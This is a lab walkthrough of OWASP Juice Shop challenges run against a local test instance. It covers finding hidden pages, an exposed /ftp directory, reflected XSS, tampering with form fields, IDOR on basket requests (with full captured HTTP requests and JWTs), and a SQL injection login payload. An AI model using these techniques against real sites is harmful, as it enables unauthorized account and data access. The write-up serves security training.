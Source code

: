 # Creating an account and registering
Credentials used 
```text
username: abc@abc.com
password: abcdef
```
Emails harvested
```text
admin@juice-sh.op
bender@juice-sh.op
jim@juice-sh.op
```

# Level 0 challenges

## 01 Finding the score board
To find the score board, we can inspect the links of the page and we see that /score-board isn't linked yet. With this, when we visit 
http://IP_ADDRESS/score-board, we can solve the challenge
![Score Board](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/score-board.png)

## 02 Finding a confidencial Document
To find a confidential document, we go to the Terms and Conditions in the about page. There, while reading the source code we see an interesting link.
![Finding Document](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/finding-document-1.png)
Here we see an interesting link to download the ToS, /ftp. So we visit the site
This is what we get. 
![Finding Document 2](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/finding-document-2.png)
Here, we see an acquisitions.md file and when we open it, we see this line 
```text
┌──(hanoz㉿kali)-[~/…/htb/challenges/owasp-js/images]
└─$ cat acquisitions.md            
# Planned Acquisitions

> This document is confidential! Do not distribute!
```
Thus, we have found it!

## 03 Finding an Instance of Improper error handling

When in /ftp, we see some other documents too, like gg files, bak files and yaml files. When we try to open these files, we see the following error. 
![Improper Error Handling](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/improper-error-handling.png)

Here, it is just directly outputting the Node error, rather than sanitizing it, revealing some potentially dangerous information. 
Thus, this challenge is completed. 

## 04 Reading the Privacy Policy
This was a challenge similar to finding the scoreboard, we find a link with 
/privacy-security.
So we find the Privacy Policy in there and when we click on it, the challenge will appear solved.
```text
http://192.168.24.143:3000/#/privacy-security/privacy-policy
```

## 05 XSS Tier 1
Here, we simply find forms where we can input data. We see there is a search bar at the top of the page, so we go there and we input the parameter needed to get reflected XSS

![XSS Tier 1](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/xss-tier-1.png)

Hence, the challenge is marked solved

## 06 Redirects Tier 1
We need to find a link that is redirecting us to another website. After scouring the website, I found something interesting in main.js
![Redirect crypto wallet](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/redirect-crypto-wallets.png)

Now, lets go there
And the challenge is marked as solved!

## 07 0-star Feedback
This challenge is pretty straightforward, all you had to do is create a request and see how the form data was handled. There is a rating field in the post request, which we can directly set to zero in burp
![zero star rating](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/0-star-rating.png)

## 08 Repitative Registration
The challenge asks us to check for the DRY principle. First let's see what it is
DRY - Don't repeat yourself in User Registration.
Cool, the only repeated field is the password.
To solve this, while typing in the original password, we repeat it for the confirm password. If the confirm password is the same as original password, it does not show the error of "passwords do not match". However, if we change the original password AFTER the confirm password "passwords do not match is removed", then there is no error. 
So we first need to match the passwords, then change the password, and we see that there is no error, and we are able to create an account. 
Hence, the challenge is marked solved. 

# Level 2 
## 01 Basket Access Tier 1
This challenge is straightforward. Our job is to just find the request in burpsuite where it is requesting for a user's basket. When we have logged in, so let's find it 
This is the request
```text
GET /rest/basket/5 HTTP/1.1
Host: 192.168.24.143:3000
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Referer: http://192.168.24.143:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=oZ9wBrRM43l7VxPnXQz1LW0NVHehqiau1yixB08pg6kbjKONJm2yDYaE5vqe; io=J8aXdQUF77aZTjggAAAE; welcome-banner-status=dismiss; cookieconsent_status=dismiss; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
Connection: close
```
Now, we can see that we don't really need to know any user's ID, we can just change 5 to any random number and we will have another user's basket.
Let's try it 
```text
GET /rest/basket/1 HTTP/1.1
Host: 192.168.24.143:3000
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Referer: http://192.168.24.143:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=oZ9wBrRM43l7VxPnXQz1LW0NVHehqiau1yixB08pg6kbjKONJm2yDYaE5vqe; io=J8aXdQUF77aZTjggAAAE; welcome-banner-status=dismiss; cookieconsent_status=dismiss; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJhYmNAYWJjLmNvbSIsInBhc3N3b3JkIjoiZTgwYjUwMTcwOTg5NTBmYzU4YWFkODNjOGMxNDk3OGUiLCJpc0FkbWluIjpmYWxzZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjItMDEtMDggMDA6MjE6MTkuNzkyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTY0MTYwMTI5MCwiZXhwIjoxNjQxNjE5MjkwfQ.fOh5Hervpj1idtDmyE1tXI2suzBZt1yN5fwsEEqy4NYCE8WHMvRtCACiGHW_MuLT_4bAtq-2nUH1qtNumVgarJ7wKPfO0pputg_dBGuoC-nnHplE_FU5jMn4sLcHRTeJVGDh5Hw8WJ2Fck2zMDzHFAO3xgSrQvqSMp539pPPDPQ
Connection: close
```

And we have success!
![Another Basket](https://github.com/HanozDar/challenges/blob/master/owasp-js/images/another-basket.png)

## 02 Login Admin
It's pretty easy, when you learn that the login form is vulnerable to SQL injection
If you put ' in the username and any random thing in password
you get this at the top of the page
```text
[object Object]
```

Error not gracefully handled, so let's construct a payload for logging into admin
```text
admin@juice-sh.op';--
```

Cool! We have logged in!

